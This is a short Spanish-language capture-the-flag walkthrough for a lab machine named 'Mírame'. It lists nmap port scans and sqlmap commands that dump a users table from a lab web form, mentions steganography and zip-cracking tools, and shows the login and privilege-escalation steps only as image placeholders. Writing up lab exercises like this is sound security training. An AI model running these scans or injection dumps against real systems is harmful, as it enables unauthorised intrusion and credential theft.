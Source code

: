 # Máquina Mírame
 
### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.1

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.1

![alt text](image-1.png)

### FUZZING WEB

![alt text](image-2.png)

### Entramos en la web

http://172.17.0.1/index.php


aplicando slqi:

![alt text](image-3.png)


### SQLMap

sqlmap -u "http://172.17.0.1/index.php" --forms --batch --dbs

![alt text](image-4.png)

sqlmap -u "http://172.17.0.1/index.php" --forms --batch -D users --tables

![alt text](image-5.png)

sqlmap -u "http://172.17.0.1/index.php" --forms --batch -D users -T usuarios --dump

![alt text](image-7.png)

utilizamos como directorio la contraseña directoriotravieso e ingresamos:

![alt text](image-8.png)

descargamos la imagen.

utilizamos la herramienta steghide, luego la herramienta stegseek y luego la herramienta fcrackzip:

![alt text](image-9.png)

![alt text](image-10.png)


### Intrusión

Nos conectamos con las credenciales encontradas:

![alt text](image-11.png)

### Escalar privilegios

![alt text](image-12.png)